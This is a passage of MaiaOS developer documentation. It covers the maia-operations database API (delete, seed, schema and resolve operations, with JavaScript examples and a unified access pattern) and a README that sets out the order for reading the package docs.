- `id` (string, required) - Record co-id to delete

**Returns:** `true` if deleted successfully

**Example:**
```javascript
await dbEngine.execute({
  op: 'delete',
  schema: 'co_zTodos123',
  id: 'co_zTodo456'
});
```

### SeedOperation

**Purpose:** Seed database with initial data (backend-specific, IndexedDB only)

**Parameters:**
- `configs` (object, required) - Config registry
- `schemas` (object, required) - Schema definitions
- `data` (object, optional) - Initial application data

**Returns:** `void`

**Example:**
```javascript
await dbEngine.execute({
  op: 'seed',
  configs: { /* ... */ },
  schemas: { /* ... */ },
  data: { /* ... */ }
});
```

### SchemaOperation

**Purpose:** Load schema definitions by co-id, schema name, or from CoValue headerMeta

**Parameters:**
- `coId` (string, optional) - Schema co-id (co_z...) - direct load
- `schemaName` (string, optional) - Schema name (e.g., 'vibe', 'actor') - resolves internally
- `fromCoValue` (string, optional) - CoValue co-id - extracts headerMeta.$schema internally

**Returns:** Schema definition object or null if not found

**Example:**
```javascript
// Load schema by co-id
const schema = await dbEngine.execute({
  op: 'schema',
  coId: 'co_zSchema123'
});

// Load schema by name (operation resolves internally)
const schema = await dbEngine.execute({
  op: 'schema',
  schemaName: 'vibe'
});

// Load schema from CoValue's headerMeta
const schema = await dbEngine.execute({
  op: 'schema',
  fromCoValue: 'co_zValue456'
});
```

### ResolveOperation

**Purpose:** Resolve human-readable keys to co-ids

**Parameters:**
- `humanReadableKey` (string, required) - Human-readable ID (e.g., '@schema/actor', '@vibe/todos')

**Returns:** Co-id (co_z...) or null if not found

**Example:**
```javascript
const coId = await dbEngine.execute({
  op: 'resolve',
  humanReadableKey: '@schema/actor'
});
```

**Note:** This operation is typically used internally by helper methods like `getSchemaCoId()` and `resolveCoId()`. Engines should use those helper methods rather than calling resolve directly.

---

## Unified Operations API Pattern

**Principle:** All database access should go through the unified operations API (`dbEngine.execute({op: ...})`). This ensures consistency, maintainability, and backend abstraction.

### Architecture Flow

```
Engines/Utils → dbEngine.execute({op: ...}) → Operations → Backend Methods
```

**Allowed:**
- ✅ Engines call `dbEngine.execute({op: 'read', ...})`
- ✅ Engines use helper methods like `getSchemaCoId()` (which use operations API internally)
- ✅ Operations call `this.backend.*` methods (operations ARE the abstraction layer)

**Not Allowed:**
- ❌ Engines calling `dbEngine.backend.*` directly
- ❌ Engines calling `backend.*` methods directly
- ❌ Utilities calling backend methods directly

### How Engines Should Access Database

**✅ Correct Pattern:**
```javascript
// Direct operation call
const store = await dbEngine.execute({
  op: 'read',
  schema: 'co_zTodos123',
  key: 'co_zTodo456'
});

// Using helper methods (which use operations API internally)
const schemaCoId = await dbEngine.getSchemaCoId('actor');
const coId = await dbEngine.resolveCoId('@vibe/todos');

// Using utilities that use operations API
import { subscribeConfig } from '@MaiaOS/script/utils';
const { config } = await subscribeConfig(dbEngine, schemaCoId, coId, 'actor');
```

**❌ Incorrect Pattern:**
```javascript
// DON'T call backend directly from engines
const data = await dbEngine.backend.read(...);  // ❌
const coId = await dbEngine.backend.resolveHumanReadableKey(...);  // ❌
```

### Why This Matters

1. **Consistency**: All database access follows the same pattern
2. **Maintainability**: Single API to maintain, easier to debug
3. **Backend Abstraction**: Engines don't need to know backend implementation details
4. **Future-proof**: Easy to add new operations or swap backends

## Integration with Other Packages

### maia-script

`maia-script` extends the shared `DBEngine` with MaiaScript evaluator support:

```javascript
// In maia-script
import { DBEngine as SharedDBEngine } from '@MaiaOS/operations';
import { MaiaScriptEvaluator } from './MaiaScriptEvaluator.js';

export class DBEngine extends SharedDBEngine {
  constructor(backend) {
    const evaluator = new MaiaScriptEvaluator();
    super(backend, { evaluator });
  }
}
```

**All engines in maia-script use the operations API:**
- `ActorEngine` - Uses `dbEngine.execute({op: 'read'})` for configs
- `StyleEngine` - Uses `subscribeConfig()` → `dbEngine.execute({op: 'read'})`
- `ViewEngine` - Uses `subscribeConfig()` → `dbEngine.execute({op: 'read'})`
- `StateEngine` - Uses `subscribeConfig()` → `dbEngine.execute({op: 'read'})`
- `SubscriptionEngine` - Uses `dbEngine.execute({op: 'read'})` for data subscriptions

### maia-db

`maia-db` implements `DBAdapter` for the CoJSON backend, allowing it to use the same operations layer as IndexedDB. All database access goes through the unified operations API.

---

## Related Documentation

- [maia-script Package](../04_maia-script/README.md) - Uses operations layer
- [maia-db Package](../05_maia-db/cojson.md) - Will implement DBAdapter for CoJSON
- [maia-schemata Package](../03_maia-schemata/README.md) - Schema validation used by operations

---

## Source Files

**Package:** `libs/maia-operations/`

**Key Files:**
- `src/index.js` - Main exports
- `src/engine.js` - Unified DBEngine
- `src/db-adapter.js` - DBAdapter interface
- `src/reactive-store.js` - ReactiveStore implementation
- `src/operations/` - All operation classes

**Dependencies:**
- `@MaiaOS/schemata` - Schema validation

---

# README

*Source: developers/README.md*

# MaiaOS Developer Documentation

Developer-facing documentation for understanding and extending MaiaOS.

## Documentation Order

Read the documentation in the following order for a complete understanding:

### 1. [maia-self Package](./01_maia-self/README.md)
**Self-Sovereign Identity and Authentication**
- Hardware-backed authentication (WebAuthn PRF)
- Zero-storage architecture (no secrets in browser)
- Deterministic account derivation
- Registration and login flows
- Bottom-up cryptography concepts
- Security analysis and threat model

**Sub-topics:**
- [Security Analysis](./01_maia-self/security-analysis.md) - Threat model and attack vectors
- [Auth Flows](./01_maia-self/auth-flows.md) - Registration and login flows
- [Cryptography](./01_maia-self/cryptography.md) - Bottom-up crypto concepts
- [API Reference](./01_maia-self/api-reference.md) - Complete API reference

### 2. [maia-kernel Package](./02_maia-kernel/README.md)
**Core system services and boot process**
- Identity & authentication layer (`createMaiaOS`)
- Actor & DSL execution layer (`MaiaOS.boot()`)
- Boot process and engine initialization
- Module loading and database seeding
- Public API reference

**Sub-topics:**
- [Auth Layer](./02_maia-kernel/auth-layer.md) - Identity & Authentication layer
- [Boot Process](./02_maia-kernel/boot-process.md) - Boot process and execution layer
- [API Reference](./02_maia-kernel/api-reference.md) - Complete API reference
- [Patterns](./02_maia-kernel/patterns.md) - Common patterns and troubleshooting

### 3. [maia-schemata Package](./03_maia-schemata/README.md)
**Schema validation and transformation system**
- ValidationEngine implementation details
- Schema transformation for seeding
- CoJSON types integration
- Co-ID generation and registry

**Sub-topics:**
- [Validation](./03_maia-schemata/validation.md) - Schema validation system
- [Transformation](./03_maia-schemata/transformation.md) - Schema transformation for seeding
- [CoJSON Integration](./03_maia-schemata/cojson-integration.md) - CoJSON types integration
- [Co-ID Generation](./03_maia-schemata/co-id-generation.md) - Co-ID generation and registry

### 4. [maia-script Package](./04_maia-script/README.md)
**Execution engines and modules**
- Engine architecture and relationships
- Individual engine details (ActorEngine, ViewEngine, StateEngine, etc.)
- Module system and custom module creation
- MaiaScript expression language reference
- Using engines independently for advanced use cases
- Complete API reference

**Sub-topics:**
- [Engines](./04_maia-script/engines.md) - Detailed engine descriptions
- [Modules](./04_maia-script/modules.md) - Module system and custom modules
- [Expressions](./04_maia-script/expressions.md) - MaiaScript expression language
- [API Reference](./04_maia-script/api-reference.md) - Complete API reference
- [Patterns](./04_maia-script/patterns.md) - Common patterns and troubleshooting

### 5. [maia-db Package](./05_maia-db/cojson.md)
**CRDT-based collaborative data layer**
- Complete cojson architecture hierarchy
- Cryptographic primitives to high-level CoValues
- CRDT operations and conflict resolution
- Storage and sync mechanisms

**Sub-topics:**
- [CoJSON Architecture](./05_maia-db/cojson.md) - Complete layer hierarchy from primitives to CoValues

### 6. [maia-operations Package](./06_maia-operations/README.md)
**Shared database operations layer**
- Unified operations that work with any backend
- DBAdapter interface for backend implementations
- DBEngine operation router
- ReactiveStore reactive data pattern
- Shared by maia-script and maia-db packages

**Sub-topics:**
- [README](./06_maia-operations/README.md) - Complete operations layer documentation

---

## Contributing

When updating these docs:
- ✅ Keep documentation current with code changes
- ✅ Include code examples
- ✅ Update cross-references if doc structure changes
- ❌ **DO NOT** update `docs/agents/LLM_*.md` files (auto-generated)

## Auto-Generated Documentation

**Agent-facing documentation** is auto-generated from these developer docs:
- `docs/agents/LLM_Developers.md` - Auto-generated, DO NOT edit manually
- Run `bun run generate:llm-docs` to regenerate agent docs

---

## Quick Links

- [Creator Documentation](../creators/) - For creators (user-facing)
- [Agent Documentation](../agents/) - For LLM agents (auto-generated)
- [Getting Started](../getting-started/) - Quick start guides

---

